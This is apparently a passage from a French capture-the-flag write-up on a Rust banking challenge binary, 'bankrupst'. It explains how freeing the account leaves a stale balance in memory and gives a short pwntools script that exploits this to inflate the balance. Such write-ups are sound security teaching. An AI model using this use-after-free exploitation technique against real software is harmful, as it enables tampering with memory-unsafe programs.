

##### Remove BankRupst card

🕵️ Lors de la suppression de la carte, on observe une remise à 0 de la balance et du deposit ainsi que la destruction de la valeur pointée par account (utilisation de drop_in_place, cette fonction rust ne détruit pas le pointeur, mais la valeur pointée par celui-ci)


 


##### Exit

🕵️‍♀️ Ici on a un deposit remis à 0 

🕵️‍♀️ On dealloc l'account mais on ne le détruit pas

🕵️‍♀️ On remet opened en false

💣 Ici ça semble intéressant car le deposit est à zero, du coup la limite de 13 dépôt est également remise à 0

💣 La balance reste à l'état ou elle était !!!!!

💣 Mais le compte n'est plus pointé en mémoire

💣 Si avec un peu de chance, la balance  est située dans le même emplacement mémoire pour chaque utilisation du programme, on peut peut-être manipuler sa valeur !!




##### Exploitation

💣 Nous allons tester "1) Insert BankRupst card" -> "2) Deposit" -> "Exit" puis nous allons voir si en relançant le programme avec une nouvelle carte la balance est à 0 ou reste sur l'ancien montant : 



💣 Ici, c'est totalement exploitable, on va écrire l'exploit avec pwntools : 

```python
from pwn import *

io = process(["./bankrupst"])

io.sendlineafter(b'Choose an option: ',b'1')

for i in range(13):
    io.sendlineafter(b'Choose an option: ',b'2')
    io.sendlineafter(b'How much do you want to deposit? ',b'100')

io.sendlineafter(b'Choose an option: ',b'6')
io.sendlineafter(b'Choose an option: ',b'1')

for i in range(2):
    io.sendlineafter(b'Choose an option: ',b'2')
    io.sendlineafter(b'How much do you want to deposit? ',b'100')


io.sendlineafter(b'Choose an option: ',b'4')
io.interactive()
```


